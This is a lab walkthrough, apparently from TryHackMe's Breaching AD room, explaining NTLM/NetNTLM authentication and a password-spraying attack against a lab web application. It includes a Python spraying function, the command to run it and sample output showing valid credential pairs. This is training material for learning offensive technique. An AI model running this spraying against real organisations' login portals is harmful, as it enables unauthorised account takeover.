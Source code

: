 # NTLM and NetNTLM

**New Technology LAN Manager (NTLM)** is a suite of security protocols used to authenticate users in Active Directory (AD). NTLM uses a challenge-response-based scheme called **NetNTLM** for authentication. This mechanism is widely used by network services, some of which may be exposed to the internet. Common examples include:

- Internally-hosted Exchange (Mail) servers with an Outlook Web App (OWA) login portal.
- Remote Desktop Protocol (RDP) services exposed to the internet.
- VPN endpoints integrated with AD.
- Internet-facing web applications using NetNTLM.

NetNTLM (also known as Windows Authentication or NTLM Authentication) allows applications to act as intermediaries between clients and AD. Authentication material is forwarded to a Domain Controller as a challenge. If successful, the application authenticates the user without storing AD credentials, which should only reside on a Domain Controller.

---

## Brute-force Login Attacks

Exposed services are ideal for testing credentials discovered through other means. They can also be targeted directly to recover valid AD credentials. For example, if valid email addresses are found during reconnaissance, these can be used in brute-force attacks.

However, most AD environments have account lockout policies, making full brute-force attacks impractical. Instead, **password spraying** is used: one password is tried across all usernames, reducing the risk of lockouts. Note that such attacks can still be detected due to the volume of failed attempts.

Suppose you have a list of usernames from OSINT and know the organization's initial onboarding password is `Changeme123`. Users often forget to change this password. You can use a custom script to perform a password spraying attack against the web application at:  
`http://ntlmauth.za.tryhackme.com`

When visiting the URL, you are prompted for Windows Authentication credentials.

> **Note:** Firefox's Windows Authentication plugin is unreliable. Use Chrome for manual testing.

While tools like Hydra can assist with password spraying, custom scripts offer more control. Below is the main function from a provided Python script:

```python
def password_spray(self, password, url):
    print("[*] Starting passwords spray attack using the following password: " + password)
    count = 0
    for user in self.users:
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        if response.status_code == self.HTTP_AUTH_SUCCEED_CODE:
            print("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if self.verbose:
            if response.status_code == self.HTTP_AUTH_FAILED_CODE:
                print("[-] Failed login with Username: " + user)
    print("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function attempts authentication with each username and the given password, checking HTTP response codes to determine success (`200 OK`) or failure (`401 Unauthorized`).

---

## Password Spraying

If using the AttackBox, the script and usernames file are in `/root/Rooms/BreachingAD/task3/`. Run the script with:

```bash
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

**Parameters:**

- `<userfile>`: Usernames file (e.g., `usernames.txt`)
- `<fqdn>`: Fully qualified domain name (e.g., `za.tryhackme.com`)
- `<password>`: Password to spray (e.g., `Changeme123`)
- `<attackurl>`: Target URL (e.g., `http://ntlmauth.za.tryhackme.com`)

**Example output:**

```
[thm@thm]$ python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```

By combining OSINT and NetNTLM password spraying, you can obtain valid credential pairs for further AD enumeration.